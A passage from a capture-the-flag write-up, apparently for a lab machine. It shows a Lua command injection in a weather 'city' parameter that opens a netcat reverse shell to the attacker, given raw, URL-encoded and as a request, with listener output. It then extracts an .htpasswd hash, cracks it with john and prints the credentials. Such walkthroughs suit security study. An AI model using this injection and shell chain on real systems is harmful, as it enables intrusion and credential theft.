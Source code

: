 **Reverse shell: Payload:** `');os.execute("rm  /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc tun0 4141 >/tmp/f")--`

**[URL-Enode](https://www.url-encode-decode.com/):** `%27%29%3Bos.execute%28%22rm%2520+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7C%2Fbin%2Fsh+-i+2%3E%261%7Cnc+tun0+4141+%3E%2Ftmp%2Ff%22%29--`

**Request:** `http://10.10.10.218/weather/forecast?city=%27%29%3Bos.execute%28%22rm%20%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20tun0%204141%20%3E%2Ftmp%2Ff%22%29--`

**Response:** `nc -nvlp 4141`

```diff
 listening on [any] 4141 ...
+connect to [10.10.14.47] from (UNKNOWN) [10.10.10.218] 65376
 sh: can't access tty; job control turned off

+$ id
+uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

## User Escalation

* inside the `/var/www` dir there is a `.htpasswd` file which contains a user and password hash -
```diff
$ cd /var/www
$ ls -la
+-rw-r--r--   1 root  wheel   47 Sep 16 15:07 .htpasswd
 -rw-r--r--   1 root  wheel  386 Sep 17 20:56 index.html
 -rw-r--r--   1 root  wheel   78 Nov 25 11:38 robots.txt
$ cat .htpasswd
+webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0
```

**Hash:** `webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0`

### john

```diff
❯ echo 'webapi_user:$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0' > hash
❯ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 8 OpenMP threads

+iamthebest       (webapi_user)

Session completed
```

### creds 
`webapi_user:iamthebest`

## Enumeration
